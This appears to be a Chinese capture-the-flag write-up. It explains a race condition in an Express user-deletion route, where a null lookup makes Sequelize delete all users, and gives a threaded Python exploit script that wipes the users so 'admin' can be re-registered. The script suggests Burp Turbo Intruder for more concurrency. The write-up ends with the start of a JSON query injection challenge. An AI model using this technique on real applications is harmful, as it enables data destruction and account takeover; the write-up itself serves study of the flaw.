


# Warmupprofile

🎯Target：以管理员身份登录

⛳Approach：删除原来的管理员账户，重新注册一个admin

🔧Dilemma：非管理员用户只能删除自己的账户

```js
app.post('/user/:username/delete', needAuth, async (req, res) => {
    const { username } = req.params;
    const { username: loggedInUsername } = req.session;
    if (loggedInUsername !== 'admin' && loggedInUsername !== username) {
        flash(req, 'general user can only delete itself');
        return res.redirect('/');
    }

    // find user to be deleted
    const user = await User.findOne({
        where: { username }
    });

    await User.destroy({
        where: { ...user?.dataValues }
    });

    // user is deleted, so session should be logged out
    req.session.destroy();
    return res.redirect('/');
});
```

若`User.findOne`返回null，即找不到当前账号

`user?.dataValues`就会为`undefined`，即`User.destroy`的条件为空

这会造成`DELETE FROM Users`进而将所有用户删除

而恰好存在`User.findOne`这种有些耗时的操作，多进程去访问这个接口，在`req.session.destroy()`触发之前，让第二个进程挤进这个路由。

考虑条件竞争

```python
import requests
import threading

url = 'http://127.0.0.1:3000/'


def run(ses):
    ses.post(url + "user/a/delete")


sess = requests.session()
sess.post(url + "register", data={"username": 'a', "password": 'a', "profile": 'a'})
sess.post(url + "login", data={"username": 'a', "password": 'a'})
for i in range(50):
    threading.Thread(target=run, args=(sess,)).start()
```



本地打通了，环境装我服务器上打不通。。。大概是网络不好？

既然这样就加大并发力度，使用burp的`turbo intruder`模块



效果还是不错的🤞

# jqi

🎯Target：获取环境变量中的flag

⛳Approach：json query injection

🔧Dilemma：绕WAF